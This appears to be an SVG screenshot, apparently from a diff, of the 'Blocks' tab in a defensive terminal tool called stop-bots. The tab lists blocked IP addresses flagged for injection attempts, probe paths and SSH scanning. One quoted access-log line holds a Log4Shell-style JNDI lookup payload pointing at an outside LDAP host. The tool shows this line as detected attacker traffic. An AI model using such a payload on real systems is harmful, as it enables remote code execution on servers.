

<svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 931 384" width="931" height="384" font-family="ui-monospace,SFMono-Regular,Menlo,Consolas,'DejaVu Sans Mono',monospace" font-size="14">
  <rect width="100%" height="100%" rx="8" fill="#12161c" />
  <rect x="20.4" y="174.0" width="226.8" height="18.0" fill="#10262a" />
  <rect x="247.2" y="174.0" width="58.8" height="18.0" fill="#10262a" />
  <rect x="306.0" y="174.0" width="184.8" height="18.0" fill="#10262a" />
  <rect x="490.8" y="174.0" width="168.0" height="18.0" fill="#10262a" />
  <rect x="658.8" y="174.0" width="252.0" height="18.0" fill="#10262a" />
  <text x="12.0" y="25.5" fill="#2ee6d6" textLength="75.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve" font-weight="bold">stop-bots</text>
  <text x="87.6" y="25.5" fill="#6b7c8c" textLength="117.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve"> 0.6.0  web-01</text>
  <text x="12.0" y="43.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">1</text>
  <text x="28.8" y="43.5" fill="#6b7c8c" textLength="75.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve">Dashboard</text>
  <text x="129.6" y="43.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">2</text>
  <text x="146.4" y="43.5" fill="#6b7c8c" textLength="100.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">Bot settings</text>
  <text x="272.4" y="43.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">3</text>
  <text x="289.2" y="43.5" fill="#6b7c8c" textLength="67.2" lengthAdjust="spacingAndGlyphs" xml:space="preserve">Firewall</text>
  <text x="381.6" y="43.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">4</text>
  <text x="398.4" y="43.5" fill="#6b7c8c" textLength="42.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">NGINX</text>
  <text x="465.6" y="43.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve" font-weight="bold">5</text>
  <text x="482.4" y="43.5" fill="#2ee6d6" textLength="50.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve" font-weight="bold">Blocks</text>
  <text x="558.0" y="43.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">?</text>
  <text x="574.8" y="43.5" fill="#6b7c8c" textLength="33.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve">Help</text>
+   <text x="852.0" y="43.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">v</text>
+   <text x="860.4" y="43.5" fill="#6b7c8c" textLength="58.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve"> simple</text>
  <text x="12.0" y="61.5" fill="#6b7c8c" textLength="50.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">status</text>
  <text x="79.2" y="61.5" fill="#8cc265" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">●</text>
  <text x="96.0" y="61.5" fill="#6b7c8c" textLength="50.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">kernel</text>
  <text x="163.2" y="61.5" fill="#d18f52" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">▲</text>
  <text x="171.6" y="61.5" fill="#c8d0da" textLength="75.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve"> reboot  </text>
  <text x="247.2" y="61.5" fill="#d18f52" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">▲</text>
  <text x="255.6" y="61.5" fill="#c8d0da" textLength="75.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve"> script  </text>
  <text x="331.2" y="61.5" fill="#d18f52" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">▲</text>
  <text x="339.6" y="61.5" fill="#c8d0da" textLength="67.2" lengthAdjust="spacingAndGlyphs" xml:space="preserve"> nginx  </text>
  <text x="406.8" y="61.5" fill="#8cc265" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">●</text>
  <text x="423.6" y="61.5" fill="#6b7c8c" textLength="42.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">files</text>
  <text x="482.4" y="61.5" fill="#8cc265" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">●</text>
  <text x="499.2" y="61.5" fill="#6b7c8c" textLength="67.2" lengthAdjust="spacingAndGlyphs" xml:space="preserve">schedule</text>
  <text x="583.2" y="61.5" fill="#8cc265" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">●</text>
  <text x="600.0" y="61.5" fill="#6b7c8c" textLength="33.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve">disk</text>
  <text x="650.4" y="61.5" fill="#8cc265" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">●</text>
  <text x="667.2" y="61.5" fill="#6b7c8c" textLength="67.2" lengthAdjust="spacingAndGlyphs" xml:space="preserve">database</text>
  <text x="751.2" y="61.5" fill="#8cc265" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">●</text>
  <text x="768.0" y="61.5" fill="#6b7c8c" textLength="33.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve">logs</text>
  <text x="818.4" y="61.5" fill="#8cc265" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">●</text>
  <text x="835.2" y="61.5" fill="#6b7c8c" textLength="84.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">log format</text>
  <text x="12.0" y="79.5" fill="#c8d0da" textLength="75.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve" font-weight="bold">5 rule(s)</text>
  <text x="87.6" y="79.5" fill="#c8d0da" textLength="151.2" lengthAdjust="spacingAndGlyphs" xml:space="preserve"> from every source</text>
  <text x="238.8" y="79.5" fill="#6b7c8c" textLength="184.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">   f cycles the source</text>
  <text x="12.0" y="97.5" fill="#6b7c8c" textLength="487.2" lengthAdjust="spacingAndGlyphs" xml:space="preserve">/ searches by address; an address finds the range it is in</text>
  <text x="12.0" y="115.5" fill="#6b7c8c" textLength="907.2" lengthAdjust="spacingAndGlyphs" xml:space="preserve">Not listed: 0 SSH-login and 0 trusted allow(s), and the downloaded lists (Dashboard). 0 address(es) unblocke</text>
  <text x="12.0" y="151.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">┌</text>
  <text x="20.4" y="151.5" fill="#2ee6d6" textLength="142.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve" font-weight="bold"> Blocks 1–5 of 5 </text>
  <text x="163.2" y="151.5" fill="#2ee6d6" textLength="756.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">─────────────────────────────────────────────────────────────────────────────────────────┐</text>
  <text x="12.0" y="169.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="20.4" y="169.5" fill="#c8d0da" textLength="226.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve"> 192.0.2.201               </text>
  <text x="247.2" y="169.5" fill="#e05561" textLength="58.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">block  </text>
  <text x="306.0" y="169.5" fill="#c8d0da" textLength="184.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">by hand (TUI)         </text>
  <text x="490.8" y="169.5" fill="#6b7c8c" textLength="168.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">  1m ago  permanent </text>
  <text x="910.8" y="169.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="12.0" y="187.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="20.4" y="187.5" fill="#c8d0da" textLength="226.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve" font-weight="bold">▎198.51.100.230            </text>
  <text x="247.2" y="187.5" fill="#e05561" textLength="58.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve" font-weight="bold">block  </text>
  <text x="306.0" y="187.5" fill="#c8d0da" textLength="184.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve" font-weight="bold">Injection attempts    </text>
  <text x="490.8" y="187.5" fill="#6b7c8c" textLength="168.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve" font-weight="bold">  1m ago  for 7d    </text>
  <text x="658.8" y="187.5" fill="#c8d0da" textLength="252.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve" font-weight="bold">198.51.100.230 - - [10/Sep/202</text>
  <text x="910.8" y="187.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="12.0" y="205.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="20.4" y="205.5" fill="#c8d0da" textLength="226.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve"> 203.0.113.9               </text>
  <text x="247.2" y="205.5" fill="#e05561" textLength="58.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">block  </text>
  <text x="306.0" y="205.5" fill="#c8d0da" textLength="184.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">Probe paths           </text>
  <text x="490.8" y="205.5" fill="#6b7c8c" textLength="168.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">  1m ago  for 5d    </text>
  <text x="658.8" y="205.5" fill="#c8d0da" textLength="252.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">203.0.113.9 - - [10/Sep/2025:0</text>
  <text x="910.8" y="205.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="12.0" y="223.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="20.4" y="223.5" fill="#c8d0da" textLength="226.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve"> 198.51.100.17             </text>
  <text x="247.2" y="223.5" fill="#e05561" textLength="58.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">block  </text>
  <text x="306.0" y="223.5" fill="#c8d0da" textLength="184.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">SSH scanners          </text>
  <text x="490.8" y="223.5" fill="#6b7c8c" textLength="168.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">  1m ago  for 5d    </text>
  <text x="658.8" y="223.5" fill="#c8d0da" textLength="252.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">Sep 10 04:12:33 host sshd[2211</text>
  <text x="910.8" y="223.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="12.0" y="241.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="20.4" y="241.5" fill="#c8d0da" textLength="226.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve"> 192.0.2.44                </text>
  <text x="247.2" y="241.5" fill="#e05561" textLength="58.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">block  </text>
  <text x="306.0" y="241.5" fill="#c8d0da" textLength="184.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">SSH scanners          </text>
  <text x="490.8" y="241.5" fill="#6b7c8c" textLength="168.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">  1m ago  for 5d    </text>
  <text x="658.8" y="241.5" fill="#c8d0da" textLength="252.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">Sep 10 04:11:07 host sshd[2203</text>
  <text x="910.8" y="241.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="12.0" y="259.5" fill="#2ee6d6" textLength="907.2" lengthAdjust="spacingAndGlyphs" xml:space="preserve">└──────────────────────────────────────────────────────────────────────────────────────────────────────────┘</text>
  <text x="12.0" y="277.5" fill="#6b7c8c" textLength="907.2" lengthAdjust="spacingAndGlyphs" xml:space="preserve">┌ Why ─────────────────────────────────────────────────────────────────────────────────────────────────────┐</text>
  <text x="12.0" y="295.5" fill="#6b7c8c" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="20.4" y="295.5" fill="#c8d0da" textLength="117.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve" font-weight="bold">198.51.100.230</text>
  <text x="138.0" y="295.5" fill="#c8d0da" textLength="772.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve"> — Injection attempts, added 1m ago                                                         </text>
  <text x="910.8" y="295.5" fill="#6b7c8c" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="12.0" y="313.5" fill="#6b7c8c" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="20.4" y="313.5" fill="#c8d0da" textLength="890.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">198.51.100.230 - - [10/Sep/2025:05:02:14 +0000] "GET /?x=${jndi:ldap://203.0.113.5/a} HTTP/1.1" 400 157   </text>
  <text x="910.8" y="313.5" fill="#6b7c8c" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="12.0" y="331.5" fill="#6b7c8c" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="20.4" y="331.5" fill="#c8d0da" textLength="890.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">"-" "curl/8.5.0"                                                                                          </text>
  <text x="910.8" y="331.5" fill="#6b7c8c" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="12.0" y="349.5" fill="#6b7c8c" textLength="907.2" lengthAdjust="spacingAndGlyphs" xml:space="preserve">└──────────────────────────────────────────────────────────────────────────────────────────────────────────┘</text>
  <text x="12.0" y="367.5" fill="#2ee6d6" textLength="50.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve" font-weight="bold">Blocks</text>
  <text x="79.2" y="367.5" fill="#2ee6d6" textLength="16.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">↑↓</text>
  <text x="104.4" y="367.5" fill="#6b7c8c" textLength="33.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve">move</text>
  <text x="154.8" y="367.5" fill="#2ee6d6" textLength="42.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">Enter</text>
  <text x="205.2" y="367.5" fill="#6b7c8c" textLength="58.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">unblock</text>
  <text x="280.8" y="367.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">f</text>
  <text x="297.6" y="367.5" fill="#6b7c8c" textLength="50.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">source</text>
  <text x="364.8" y="367.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">/</text>
  <text x="381.6" y="367.5" fill="#6b7c8c" textLength="50.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">search</text>
  <text x="448.8" y="367.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">:</text>
  <text x="465.6" y="367.5" fill="#6b7c8c" textLength="67.2" lengthAdjust="spacingAndGlyphs" xml:space="preserve">commands</text>
  <text x="549.6" y="367.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">?</text>
  <text x="566.4" y="367.5" fill="#6b7c8c" textLength="58.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">explain</text>
  <text x="642.0" y="367.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">t</text>
  <text x="658.8" y="367.5" fill="#6b7c8c" textLength="42.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">theme</text>
  <text x="717.6" y="367.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">q</text>
  <text x="734.4" y="367.5" fill="#6b7c8c" textLength="33.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve">quit</text>
</svg>
